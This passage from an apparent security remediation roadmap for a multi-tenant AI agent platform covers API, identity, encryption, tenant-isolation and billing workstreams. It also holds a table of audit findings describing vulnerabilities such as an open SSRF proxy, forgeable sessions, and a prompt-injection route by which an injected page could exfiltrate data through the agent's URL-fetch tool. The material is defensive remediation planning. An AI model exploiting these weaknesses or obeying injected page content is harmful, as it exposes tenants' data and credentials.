| **2.3 Public API v1, done properly** | `api_keys`: org, optional agent scope, prefix `as_live_xxxxxxxx`, HMAC-SHA256 with a server pepper, scopes (`runs:create`, `runs:read`, `approvals:decide`, `usage:read`), `last_used_at`, `expires_at`, `revoked_at`. Keys are shown once, rotate with overlap, and every action is audited. `requireApiKey()` runs inside `withRoute`. `POST /v1/agents/{id}/runs`: zod body (input, parameters, agent_version, dry_run, metadata), published versions only, through `admitRun`. Errors are 402 or 429 problem+json with Retry-After. The rate limit is keyed on (org, key) and counted once, and TPM is debited from actual usage. `Idempotency-Key` is backed by `api_idempotency` (request hash, 24 h, 422 on a mismatched body). Returns 202 + Location. `GET /v1/runs/{id}` returns typed status and outcome. `POST /v1/approvals/{id}/decision` uses the UI policy. Signed outbound webhooks (Standard Webhooks) for `run.completed` and `approval.requested` go through the outbox. A generated OpenAPI 3.1 document is served at `/v1/openapi.json` (zod-to-openapi). Cost, model and DLP details are returned only with `usage:read`. ExportAgentModal snippets send a bearer key. | The API was switched off in Phase 0. Partners that integrate programmatically need it back with authentication, retry safety and an async contract. Otherwise every client retry starts another paid run. | [surface-3] [gap-public-api-contract-and-commercial-controls-1] [gap-public-api-contract-and-commercial-controls-2] [gap-public-api-contract-and-commercial-controls-4] [gap-public-api-contract-and-commercial-controls-8] [gap-public-api-contract-and-commercial-controls-9] [gap-public-api-contract-and-commercial-controls-13] [gap-public-api-contract-and-commercial-controls-14] [gap-public-api-contract-and-commercial-controls-15] [gap-public-api-contract-and-commercial-controls-20] [gap-approval-governance-and-notification-delivery-21] [gap-agentspec-schema-evolution-15] [runtime-32] | Stripe-style prefixed hashed keys, IETF Idempotency-Key draft, long-running operation (202 + Location), RFC 9457, Standard Webhooks, OpenAPI 3.1 from code | L (10-12 d) | Low. A new surface replacing a disabled one. |
| **2.4 Identity hardening and MFA for privileged roles** | Email verification (`email_verified_at`, signed single-use tokens) is required before accepting any invitation or share. An operator backfill marks existing users verified. Password reset, and a HIBP k-anonymity check (NIST 800-63B). **TOTP MFA (otplib) is mandatory for the owner and approver roles**, with a 14-day enrolment window and recovery codes. Step-up re-authentication for ownership transfer and deletion. Invitation tokens are stored as sha256, valid for 72 h and exchanged by POST only. An auth event taxonomy is written to audit (`login.success`/`failure`, `logout`, `session.revoked`, `workspace.switched`, `authz.denied`) with IP and user agent. A unique index on `lower(email)`. Expand/contract over two releases: drop `users.role`, repoint `users.org_id` to a nullable `signup_org_id` with ON DELETE SET NULL, and route shares by user. Sharing becomes invitation-style with uniform responses. The login page becomes a proper form with autocomplete attributes. | Without verification, an attacker can pre-register a victim's email once signup opens. The people who approve consequential actions have no MFA. Legacy tenancy columns still influence routing. | [auth-7] [auth-20] [auth-24] [auth-25] [auth-26] [auth-19] [gap-tenant-lifecycle-offboarding-1] [gap-tenant-lifecycle-offboarding-11] [frontend-35] | NIST SP 800-63B, OWASP ASVS V2/V3, TOTP (RFC 6238), expand/contract migrations | L (10-11 d) | Medium. MFA adds friction, and the two-release column drop touches registration and shares. Rehearse on a snapshot. |
| **2.5 KMS envelope encryption for tenant secrets** | One DEK per org from KMS `GenerateDataKey`, stored wrapped on `orgs`. Tenant secrets are encrypted with AES-256-GCM under the DEK, and `key_version` records which key was used. Dual-read (HKDF v1 or DEK) until a verify pass reaches 100% of rows. Rotation jobs rewrap DEKs on KMS key rotation and re-encrypt on DEK rotation. Webhook signing secrets move into encrypted columns, are shown once, and get a rotate endpoint with a 24 h overlap. The JWT key ring gets a `kid`. A worker-only DEK cache with a short TTL. A runbook and a quarterly rotation drill. | A single environment-derived key protecting every tenant credential is the largest blast radius in the system. A per-org DEK also enables crypto-shredding at purge. | [auth-8] [auth-1] [gap-public-api-contract-and-commercial-controls-18] | Envelope encryption (AWS KMS), crypto-agility through key versioning, SOC 2 CC6.1 key management | M (6-7 d) | **High**, because credential availability is at stake. Mitigate with dual-read, a snapshot first, and keeping the v1 key for 30 days. |
| **2.6 Tenant and user lifecycle (offboarding, deletion, DSAR)** | **Offboarding** runs in one transaction plus an outbox write. It reassigns `agents.owner_id` to a chosen successor, pauses the leaver's schedules, cancels or reassigns their running and parked runs, revokes their invitations and flags their connections for rotation. **Membership:** leave workspace (refused for the last owner), admin removal of non-admins, and ownership transfer with step-up re-auth. `memberships.status` gains `suspended`. Scheduled runs execute as a workspace service principal with a separate accountable owner. A "no workspace" screen for users with no memberships. **Workspace deletion:** `orgs.status` becomes active, suspended, pending_deletion or purged, with a 30-day grace period. A `tenant.purge` job cascades through a CI-checked `tenant_scoped` table registry, deletes the S3 prefix and schedules the DEK for deletion. It has a dry-run mode and requires two-operator confirmation. **Accounts:** `DELETE /api/me` soft-deletes immediately and pseudonymises after 30 days. User FKs get ON DELETE SET NULL or reassignment. Workspace and user export jobs produce NDJSON, a manifest and files as a presigned zip. Audit stores the run id and a hash rather than the input. Shares keep provenance with SET NULL. | DPAs require deletion and export. Today a removed member's schedules and credentials keep acting in their name, and no route can delete an org or a user. | [gap-tenant-lifecycle-offboarding-2] [gap-tenant-lifecycle-offboarding-3] [gap-tenant-lifecycle-offboarding-4] [gap-tenant-lifecycle-offboarding-5] [gap-tenant-lifecycle-offboarding-6] [gap-tenant-lifecycle-offboarding-8] [gap-tenant-lifecycle-offboarding-9] [gap-tenant-lifecycle-offboarding-10] [gap-tenant-lifecycle-offboarding-12] [gap-tenant-lifecycle-offboarding-13] [gap-tenant-lifecycle-offboarding-16] [gap-tenant-lifecycle-offboarding-17] [data-21] [gap-approval-governance-and-notification-delivery-19] | GDPR Art. 15/17/20, soft delete with pseudonymisation, crypto-shredding, tenant lifecycle state machine, data inventory registry | L (11-12 d) | **High**, because purge is irreversible. Mitigate with dry-run diffs, two-operator confirmation, PITR retention longer than the grace window, and a restore test before enabling. |
| **2.7 Tracing, metrics and SLOs** | OpenTelemetry through `instrumentation.ts` on web and sdk-node on the worker. Spans cover request, job, run, model call and tool call, with pg and undici auto-instrumentation and the Anthropic request-id as an attribute. Metrics: runs by state and org, step duration, tokens, cost, queue lag, stalled runs, pool gauges, egress denials and approval volume. **SLOs:** run start p95 under 5 s. 99.5% of runs reach a terminal or parked state without a platform error. API availability 99.9%. Approval-to-resume p95 under 10 s. Burn-rate alerts, an on-call rota and a runbook link on every alert. | Phase 3 priorities should come from data. A distributed, queued runtime cannot be operated without end-to-end traces. | [ops-12] [runtime-25] [data-26] [integrations-27] | OpenTelemetry, Google SRE SLOs and error budgets, RED/USE metrics | M (5 d) | Low. Sample 10% of traces and keep all errors. |

**Exit criteria (Gate C)**
- [ ] The public API is live for at least 1 partner. 10 replays of one `Idempotency-Key` create exactly 1 run. Unauthenticated v1 calls return 401.
- [ ] Ledger spend reconciles with Anthropic invoices within 1%. 50 concurrent runs against a $5 cap overshoot by less than one model call.
- [ ] 100% of approval notifications are delivered or visibly retrying, and the dead-letter alarm is wired.
- [ ] An integration test shows a delegated child that pauses for approval returning its result to the parent after the decision. Cycles and a 6th child are refused.
- [ ] An unverified email cannot accept an invitation. 100% of owners and approvers have MFA enrolled after the window. A password change revokes all sessions.
- [ ] 100% of tenant secrets are under a KMS DEK, and a rotation drill passes in staging.
- [ ] A workspace purge in staging leaves 0 rows in registry tables and 0 S3 objects under the prefix, and schedules the DEK for deletion. A DSAR export completes in under 15 min for a 10k-run tenant. The offboarding test leaves the leaver with 0 active schedules, runs, invitations or sessions.
- [ ] SLO dashboards are live, and every alert links to a runbook.

### Phase 3: Open self-serve and GA

**Duration:** 7-8 weeks with 3-4 engineers (about 12 with 2). **Gate D:** about week 22, self-serve and GA.

**Goal:** move from design partners to paid self-serve with:
- database-enforced tenancy;
- plans and billing;
- a governance model regulated buyers accept;
- fenced features rebuilt only once they are real;
- bounded data growth;
- external evidence of the security posture.

| Workstream | What | Why | Findings addressed | Practices | Effort | Risk of change |
|---|---|---|---|---|---|---|
| **3.1 Tenant isolation in depth (RLS)** | The workspace moves into the URL (`/w/[slug]/…`), and `active_org_id` becomes only a last-visited default. Add `org_id NOT NULL` to `run_steps`, `agent_versions` and `connection_webhooks`, backfilled. `withTenantTx` runs `SET LOCAL app.org_id`. RLS `USING (org_id = current_setting('app.org_id')::uuid)` goes on every tenant table. The app role is NOBYPASSRLS with DML only. A named `system` role is used only by `cron.tick`, the reaper and purge, and each use is audited. The pg-boss schema is exempt. Roll out table by table: logging mode in staging first, with a per-table kill switch. Audit rows are written in the same transaction as the change, with a nightly export to S3 Object Lock. A CI query over `pg_class`/`pg_policy` fails on any `org_id` table without a policy. | Hand-written predicates are one missed WHERE clause away from a cross-tenant leak, and concurrent tabs can write into the wrong tenant. RLS turns that bug into an empty result. It is mandatory before strangers can sign up. | [data-12] [auth-12] [data-17] | Postgres Row-Level Security, defence in depth, WORM audit storage (S3 Object Lock) | L (10-12 d) | **High**. Mitigate with the cross-tenant suite already in CI since Phase 1, logging mode, and table-by-table enforcement. |
| **3.2 Plans, entitlements and billing** | `plans(limits jsonb)` and `org_subscriptions` (Stripe ids, status trialing, active, past_due or canceled). A cached `entitlements(orgId)` feeds `admitRun` and the upload quota: runs per month, concurrency, storage, seats and platform-key use. A `price_book(version, model, meter, unit_price_micros, effective_from)` table replaces the `pricing.ts` constants, keeping COGS separate from the billable amount. An hourly job pushes idempotent usage to Stripe Billing Meters. Checkout and Customer Portal. `past_due` becomes suspended after a 14-day grace period. Self-serve registration opens only with a verified email, a Stripe customer and RLS enforced. One billing cycle of shadow invoicing before charging. | Today the only commercial control is a cap that the customer sets and can remove. | [gap-public-api-contract-and-commercial-controls-5] [gap-public-api-contract-and-commercial-controls-19] [auth-11] | Entitlements service, Stripe usage-based billing, versioned price book, dunning and grace states | L (10 d) | Medium. Shadow invoicing protects customer trust. |
| **3.3 Governance model v2 and spec evolution** | `approval_policies` per agent and tool: eligible groups, quorum, `allow_self_approval` (false by default for high risk), expiry and escalation. **Maker-checker:** the spec author, publisher and initiator cannot approve unless policy allows it. Payload visibility is scoped by policy, with DLP-masked copies for everyone else. An append-only `approval_ledger` that agent deletion cannot remove. The audit actor becomes `actor_type`, `actor_id` and `on_behalf_of`. **Spec evolution:** an `upgradeSpec` chain from v1 to vN, which freezes input-type guessing into a migration, plus registry tombstones and aliases. Rollback to vK is published as N+1. A dependency table blocks or confirms deleting a connection or skill that a published version uses. Diffs are generated from schema metadata using each version's recorded risk. Skills are versioned, soft-deleted, content-validated and included in the publish diff. Each run records the rendered prompt hash and the model. The schedule parser version is stored and schedules are re-derived after deploy. **DLP:** one `dlp()` boundary applied to tool_results before they are appended and to run_steps and approvals before insert. Luhn and stricter validators, logging only by default. | Regulated buyers need enforced separation of duties and reproducible published behaviour. DLP today corrupts data with false positives and misses the main PII source, which is tool results. | [gap-approval-governance-and-notification-delivery-3] [gap-approval-governance-and-notification-delivery-6] [gap-approval-governance-and-notification-delivery-7] [gap-approval-governance-and-notification-delivery-17] [gap-approval-governance-and-notification-delivery-18] [gap-agentspec-schema-evolution-4] [gap-agentspec-schema-evolution-7] [gap-agentspec-schema-evolution-9] [gap-agentspec-schema-evolution-10] [gap-agentspec-schema-evolution-12] [gap-agentspec-schema-evolution-13] [gap-agentspec-schema-evolution-14] [gap-agentspec-schema-evolution-21] [ai-10] [ai-11] [ai-21] [ai-22] [data-23] | Four-eyes / maker-checker, policy as data, upcasting schema migrations, immutable releases with rollback | L (12-14 d) | Medium. `upgradeSpec` must parse 100% of a production snapshot before it is enforced. |
| **3.4 Rebuild fenced features correctly** | Each feature ships behind its flag with tests and a security review, ordered by partner demand. **Exporter first:** 422 for tools not implemented on the target; authenticated ingress by default (Cloud Run `--no-allow-unauthenticated`, Lambda AWS_IAM, Azure `authLevel: function`) and a bearer check in `server.mjs`; no `CORS *`; golden-file tests with `node --check` and `py_compile`; a fast-check fuzz of names; a bundle `formatVersion`. **Apps:** proxy and embeds on a separate `apps-usercontent` registrable domain, no cookie relay, same-origin redirects only, a strict `frame-src`, and a nonce-bearing, origin-checked bridge. `permissions` becomes an enum. **Webhooks:** encrypted per-connection secrets, provider adapters (Slack `url_verification` and signing, GitHub, Stripe, Standard Webhooks), a 256 KB cap, `org_id`, dedupe on `delivery_id`, a job that triggers subscribed agents, and 7-day retention. **MCP:** the official `@modelcontextprotocol/sdk` client with namespaced, executable tools through `safeFetch`. **OAuth:** authorisation code + PKCE with oauth4webapi and a refresh job, with health in its own table. **Evals and playground:** real `dry_run` runs through the worker, labelled "simulation" wherever anything is mocked. **Sandbox run:** metered as runs with trigger `sandbox`. **Vendors:** one module per integration, each with contract tests. | These are real differentiators, but each one shipped insecure or fabricated. They come back only once they are true. | [storage-11] [quality-6] [quality-17] [gap-agentspec-schema-evolution-18] [gap-public-api-contract-and-commercial-controls-10] [gap-public-api-contract-and-commercial-controls-12] [auth-4] [auth-9] [data-27] [data-24] [data-32] [integrations-13] [integrations-28] [auth-17] [frontend-14] [ai-2] [ai-3] [surface-16] | Origin isolation for untrusted content, HMAC webhook verification, OAuth 2.1 / PKCE, golden-file testing, secure-by-default IaC | XL (15-20 d, scheduled by demand) | Medium. Each item is an independent flag. |
| **3.5 Data growth and frontend platform** | **Data:** messages stored append-only in `run_messages`, with `runs.state` nulled at finish. Step payloads over 64 KB spill to S3. Retention: `run_steps` 90 d, notifications 30 d, webhooks 7 d. `run_steps` and `audit_events` partitioned by month with pg_partman. Keyset pagination with explicit columns, maintained counters, and a relational `agent_skills` table. `read_document` takes ids bound to the run. A context budget using `countTokens` and clearing old tool_results. **Frontend:** a typed `apiFetch` and TanStack Query. `error.tsx`, `loading.tsx` and `not-found.tsx`. SSE run events over LISTEN/NOTIFY replace the 2 s poll. A Radix Dialog and a ConfirmDialog. Connections listed as rows. jsx-a11y fixes with axe in CI. `next/dynamic` for the Builder tabs, and hydration fixes. A single `FrameworkSandbox` component. | Driven by Phase 2 metrics on table size, p95 page time and poll load. Do it when the measurements say so. | [data-13] [data-14] [data-16] [data-31] [ai-5] [storage-17] [storage-18] [frontend-10] [frontend-11] [frontend-13] [frontend-15] [frontend-16] [frontend-17] [frontend-19] [frontend-20] [frontend-21] [frontend-23] [frontend-25] [frontend-29] [frontend-31] [quality-10] | Time-based partitioning, keyset pagination, Server-Sent Events, WCAG 2.2 AA, claim-check pattern | L (about 10 d, then ongoing) | Low to medium. Partitioning needs an online shadow-table migration. |
| **3.6 GA proof: load, chaos, DR, pentest and SOC 2 readiness** | k6 load tests: 200 concurrent runs across 50 orgs against a mocked Anthropic, a 500-agent cron burst, a noisy-neighbour test, and a 24 h soak. AWS FIS chaos: kill workers, RDS failover, KMS throttling. An automated quarterly PITR restore test in CI. Confirm the pre-agreed trigger for moving the queue and rate limits off Postgres. A full-scope external pentest (OWASP WSTG). SOC 2 Type I readiness in Vanta or Drata, using the CI and audit evidence already produced. README and technical design document facts are generated from code, plus a docs lint. | Scale and recovery only count once measured. GA needs external validation, and the docs currently overstate what the code does. | [ops-26] [runtime-26] [data-25] | k6 load testing, chaos engineering (AWS FIS), DR drills (RPO/RTO), OWASP WSTG pentest, SOC 2 Type I | M (8-10 d plus vendor time) | Low. Test-only, but it may produce tuning work. |

**Exit criteria (Gate D)**
- [ ] Self-serve signup to a paid plan works end to end with Stripe test clocks, and a suspended org cannot start runs.
- [ ] RLS covers 100% of `org_id` tables (CI query). A test build with a deliberately removed `org_id` predicate still returns 0 foreign rows.
- [ ] Shadow invoices match `usage_events` within 0.1% for one full cycle.
- [ ] 100% of stored specs pass `upgradeSpec` plus the latest zod schema. Table tests show approval policies deny self-approval of high-risk tools.
- [ ] Every re-enabled feature has passed a security review. Exported bundles pass `node --check` and `py_compile` with 0 fuzz escapes.
- [ ] k6: 200 concurrent runs across 50 orgs with p95 admission under 300 ms and 0 stalled runs. One org at its limit adds under 10% to other orgs' p95 queue latency. The 24 h soak shows under 10% memory growth.
- [ ] RDS failover under load causes 0 duplicate side effects. The restore drill meets RPO ≤ 5 min and RTO ≤ 1 h.
- [ ] The full external pentest reports 0 open critical or high findings. The SOC 2 Type I gap list is closed or has accepted exceptions. axe reports 0 serious issues on the 10 core pages.

### Sequencing rationale

- **Phase 0 comes first because it is cheap and high-yield.** Five of the seven criticals sit in surfaces that can be deleted or flagged off in days, while fixing them properly would take months; the other two are small hotfixes. The CI, route inventory and concurrency tests from 0.1 must exist before anyone touches the run loop.
- **Phase 1 bundles the durable runtime with the controls that depend on it.** Write-ahead steps, transactional parking, reservations and SSRF-safe egress all depend on runs executing in workers under one transaction discipline. Shipping the worker without them would put partners on a system that duplicates emails and overshoots caps. The RunExecutor flag makes this highest-risk change reversible per org.
- **Partners arrive before RLS.** That is a deliberate trade: app-enforced tenancy is backed by the policy module, the cross-tenant suite, the route-inventory gate and a scoped pentest. RLS is safer to roll out once every query already goes through `withRoute` and a repository layer.
- **Phase 2 is ordered by what partners exercise and what their DPAs require.** It covers notifications, delegation, the API, MFA, KMS and deletion, and it produces the telemetry that ranks Phase 3.
- **Phase 3 holds everything that only matters once strangers can sign up.** That is RLS, billing, separation of duties, the rebuilt differentiators and external proof. Self-serve stays closed until all of it is in place.

### Traceability: every critical and high finding to the workstream that fixes it

| Finding | Severity | Title | Phase | Workstream |
|---|---|---|---|---|
| data-1 | critical | Re-running schema.sql silently re-grants revoked workspace memberships | Phase 0: Fence, commit and stop the bleeding | 0.5 Versioned migrations, database hygiene and no runtime DDL |
| auth-3 | critical | Unauthenticated app proxy forwards the caller's session cookie to tenant-controlled upstream URLs and acts as an open SSRF proxy | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| runtime-2 | critical | Owner of one workspace can fire and observe every tenant's scheduled agents via manual cron tick | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| surface-3 | critical | Public /api/v1/agents/[id]/invoke starts real runs with no authentication; Bearer/X-API-Key are read but never verified | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| storage-6 | critical | `/assets` and `/api/v1` catch-alls are unauthenticated, pick a random tenant's upstream as fallback, and mark responses publicly cacheable | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| auth-4 | critical | Proxied third-party HTML is served from the application origin and iframed without sandbox, giving embedded apps full same-origin access to the API | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| frontend-1 | critical | postMessage bridge accepts any origin and starts authenticated agent runs | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| gap-tenant-lifecycle-offboarding-3 | high | No account deletion or DSAR erasure path; PII is copied into denormalised columns and an append-only audit table that has no redaction path | Phase 2: Harden by measured risk: side effects, API, identity, lifecycle | 2.6 Tenant and user lifecycle (offboarding, deletion, DSAR) |
| ops-4 | high | No graceful shutdown: SIGTERM during a 5-minute in-flight run is unrecoverable within any orchestrator grace period | Phase 1: Durable runtime and first design-partner production | 1.1 Worker tier on pg-boss behind a RunExecutor seam |
| ops-10 | high | No CI, tests, lint, format, pre-commit hooks, CODEOWNERS or branch protection; 50 files uncommitted on master | Phase 0: Fence, commit and stop the bleeding | 0.1 Commit, branch protection and CI baseline |
| ops-9 | high | Known-vulnerable dependencies: Next 14.2 (critical, incl. unauthenticated RCE), nodemailer 6 (high), xlsx (no fix), SDK 95 minors behind | Phase 0: Fence, commit and stop the bleeding | 0.2 Dependency emergency upgrade (time-boxed) |
| gap-approval-governance-and-notification-delivery-2 | high | Approvals queue hides recipients and destination: for send_email the approver sees only the body, not 'to' or 'subject' | Phase 1: Durable runtime and first design-partner production | 1.3 Approval integrity: what the approver sees is what executes |
| frontend-14 | high | Fake connection health, latency and OAuth status shown to users | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| ai-3 | high | Playground 'Interactive Debugger Console' returns a hard-coded simulated trace, not the agent's behaviour | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| auth-13 | high | RBAC does not match the documented matrix: approvers (and builders) can edit specs, manage credentials, skills, apps and schedules | Phase 1: Durable runtime and first design-partner production | 1.8 Central authorization, route kernel and cross-tenant suite |
| surface-10 | high | Spec gates are accepted verbatim from the client, so any member can set high-risk tools to `auto` | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| data-4 | high | Schedule view queries columns that do not exist (finished_at, cost_cents) and always 500s | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| auth-14 | high | Publish and spend gates are bypassable: schedule 'run-now' and swarm 'dispatch' execute unreviewed drafts with no role, validation or budget check | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| auth-5 | high | Proxy relays upstream Set-Cookie headers onto the Agent Studio origin, stripping Secure, enabling session fixation | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| auth-10 | high | No brute-force protection, rate limiting or lockout on login/registration; failed logins are not audited | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| runtime-6 | high | Cron tick executes up to 20 scheduled runs sequentially inside one HTTP request with no backpressure | Phase 1: Durable runtime and first design-partner production | 1.1 Worker tier on pg-boss behind a RunExecutor seam |
| storage-7 | high | Local-disk STORAGE_DIR with absolute paths persisted in the DB breaks with 2+ replicas or any volume move | Phase 1: Durable runtime and first design-partner production | 1.6 Object storage and document ingestion |
| storage-8 | high | Uploads have no size limit, no per-org quota, and are fully buffered in memory | Phase 1: Durable runtime and first design-partner production | 1.6 Object storage and document ingestion |
| auth-7 | high | No email verification: anyone can register a victim's address and inherit their invitations and shares | Phase 2: Harden by measured risk: side effects, API, identity, lifecycle | 2.4 Identity hardening and MFA for privileged roles |
| gap-tenant-lifecycle-offboarding-7 | high | Pending invitations sent by a removed or demoted admin stay valid and can still grant the admin role | Phase 1: Durable runtime and first design-partner production | 1.8 Central authorization, route kernel and cross-tenant suite |
| surface-16 | high | Sandbox run uses workspace/platform LLM keys outside spend tracking and puts the Gemini key in the URL | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| gap-public-api-contract-and-commercial-controls-5 | high | No plans, entitlements or provider-side limits: the only commercial control is a cap the customer can set or remove | Phase 3: Open self-serve and GA | 3.2 Plans, entitlements and billing |
| gap-public-api-contract-and-commercial-controls-17 | high | GET /api/v1/agents/{id}/invoke discloses any tenant's agent name and purpose without authentication | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| gap-public-api-contract-and-commercial-controls-3 | high | Public invoke executes an unpublished draft spec when the agent has never been published | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| gap-public-api-contract-and-commercial-controls-2 | high | No Idempotency-Key handling: a client retry after a timeout starts a second paid run with duplicate side effects | Phase 2: Harden by measured risk: side effects, API, identity, lifecycle | 2.3 Public API v1, done properly |
| gap-public-api-contract-and-commercial-controls-4 | high | No async contract: paused or failed runs return HTTP 200 with a fabricated 'processing in background' output, and there is no poll endpoint or callback | Phase 2: Harden by measured risk: side effects, API, identity, lifecycle | 2.3 Public API v1, done properly |
| gap-tenant-lifecycle-offboarding-2 | high | No workspace deletion, suspension or tenant offboarding capability exists | Phase 2: Harden by measured risk: side effects, API, identity, lifecycle | 2.6 Tenant and user lifecycle (offboarding, deletion, DSAR) |
| integrations-30 | high | Canvas bridge accepts postMessage from any origin and broadcasts with '*' | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| frontend-5 | high | Canvas bridge fabricates 'completed' results without checking the response | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| frontend-3 | high | 'Schedule publish' is a UI-only no-op that reports success | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| gap-public-api-contract-and-commercial-controls-1 | high | No API-key store or lifecycle exists, and every client snippet and exported service tells users to call without a credential | Phase 2: Harden by measured risk: side effects, API, identity, lifecycle | 2.3 Public API v1, done properly |
| quality-2 | high | Agent name interpolated unescaped into generated JavaScript/Python source | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| storage-11 | high | Exported deploy scripts and IaC default to publicly invokable, unauthenticated endpoints with CORS * | Phase 3: Open self-serve and GA | 3.4 Rebuild fenced features correctly |
| auth-11 | high | Open self-service registration lets anonymous users burn the operator's fallback ANTHROPIC_API_KEY | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| integrations-4 | high | Anthropic client uses SDK defaults: 10-minute timeout, 2 retries, non-streaming — worst case 30 minutes inside a 300 s request | Phase 1: Durable runtime and first design-partner production | 1.4 Model gateway, usage ledger and spend reservations |
| gap-public-api-contract-and-commercial-controls-6 | high | Compile, skill-draft and skill-synthesis model calls are never metered and bypass the spend cap | Phase 1: Durable runtime and first design-partner production | 1.4 Model gateway, usage ledger and spend reservations |
| storage-13 | high | apps.ts performs runtime DDL and silently falls back to a per-process in-memory store that is scanned across orgs | Phase 0: Fence, commit and stop the bleeding | 0.5 Versioned migrations, database hygiene and no runtime DDL |
| auth-1 | high | Hard-coded fallback JWT signing secret allows forging any user's session | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| auth-8 | high | One AUTH_SECRET is both the JWT HMAC key and the AES-256-GCM key for every tenant's credentials, with no rotation path | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| data-6 | high | Pool has no error handler, TLS, or timeouts; an idle-client error crashes the process | Phase 0: Fence, commit and stop the bleeding | 0.5 Versioned migrations, database hygiene and no runtime DDL |
| runtime-7 | high | No per-tenant or global concurrency limit on runs | Phase 1: Durable runtime and first design-partner production | 1.1 Worker tier on pg-boss behind a RunExecutor seam |
| data-11 | high | DDL executed from request handlers; eval tables absent from schema.sql; in-memory fallback masks DB outages | Phase 0: Fence, commit and stop the bleeding | 0.5 Versioned migrations, database hygiene and no runtime DDL |
| ai-2 | high | Eval harness fabricates every result: no model call, canned deliverables, random token counts, persisted and displayed as genuine safety benchmarks | Phase 0: Fence, commit and stop the bleeding | 0.3 Kill switches for unsafe and fabricated surfaces |
| runtime-3 | high | Run executes synchronously inside the HTTP request with no queue, no timeout, and maxDuration is a Vercel-only hint | Phase 1: Durable runtime and first design-partner production | 1.1 Worker tier on pg-boss behind a RunExecutor seam |
| runtime-4 | high | No component ever reclaims an expired lease: a crash or deploy strands runs on 'running' forever | Phase 1: Durable runtime and first design-partner production | 1.1 Worker tier on pg-boss behind a RunExecutor seam |
| storage-5 | high | Import/promote writes an unvalidated spec; orchestrator honours imported `gate: "auto"` on high-risk tools (approval bypass) | Phase 1: Durable runtime and first design-partner production | 1.7 AgentSpec contract |
| runtime-11 | high | Spend cap only sees finished runs; concurrent in-flight runs can collectively overshoot it | Phase 1: Durable runtime and first design-partner production | 1.4 Model gateway, usage ledger and spend reservations |
| ai-6 | high | stop_reason is never inspected: max_tokens truncation, refusal and pause_turn are all treated as a completed deliverable | Phase 1: Durable runtime and first design-partner production | 1.4 Model gateway, usage ledger and spend reservations |
| gap-approval-governance-and-notification-delivery-1 | high | Approval becomes decidable before the run is parked; deciding in that window strands the run in awaiting_approval forever | Phase 1: Durable runtime and first design-partner production | 1.3 Approval integrity: what the approver sees is what executes |
| ai-8 | high | Usage before an approval pause is never priced; cache tokens dropped; crash mid-run loses all usage | Phase 1: Durable runtime and first design-partner production | 1.4 Model gateway, usage ledger and spend reservations |
| integrations-8 | high | Redis tool disables TLS certificate verification | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| data-7 | high | Spend is derived from mutable run rows: deleting an agent lowers month-to-date spend, and in-flight cost is invisible | Phase 1: Durable runtime and first design-partner production | 1.4 Model gateway, usage ledger and spend reservations |
| integrations-6 | high | web_search bypasses the SDK, has no timeout, and its token usage and per-search fees are never counted toward spend | Phase 1: Durable runtime and first design-partner production | 1.4 Model gateway, usage ledger and spend reservations |
| ai-4 | high | Prompt-injection defence is one sentence; auto tools include arbitrary-URL fetch_url alongside data tools, giving an injected page a data-exfiltration channel | Phase 1: Durable runtime and first design-partner production | 1.5 Egress safety and tool hardening |
| surface-4 | high | fetch_url lets the model request any host, including cloud metadata and internal services, and follows redirects | Phase 1: Durable runtime and first design-partner production | 1.5 Egress safety and tool hardening |
| integrations-9 | high | Unbounded response bodies buffered in memory (fetch_url, http_request, GitHub, proxies) — truncation happens only after full download | Phase 1: Durable runtime and first design-partner production | 1.5 Egress safety and tool hardening |
| surface-11 | high | Customer-database tool has no statement timeout, unbounded fetch, weak read-only regex, and no role separation | Phase 1: Durable runtime and first design-partner production | 1.5 Egress safety and tool hardening |
| gap-agentspec-schema-evolution-8 | high | Retire is not enforced on delegation or paused runs; invoke_agent runs a retired agent's draft | Phase 0: Fence, commit and stop the bleeding | 0.4 Cross-tenant, secrets and governance hotfixes |
| runtime-9 | high | invoke_agent delegation has unbounded fan-out and cost, allows cycles, runs children synchronously inside the parent's request | Phase 2: Harden by measured risk: side effects, API, identity, lifecycle | 2.2 Durable delegation |
| runtime-10 | high | A delegated child paused at an approval gate never delivers its result to the parent | Phase 2: Harden by measured risk: side effects, API, identity, lifecycle | 2.2 Durable delegation |

## 7. Engineering practices to adopt

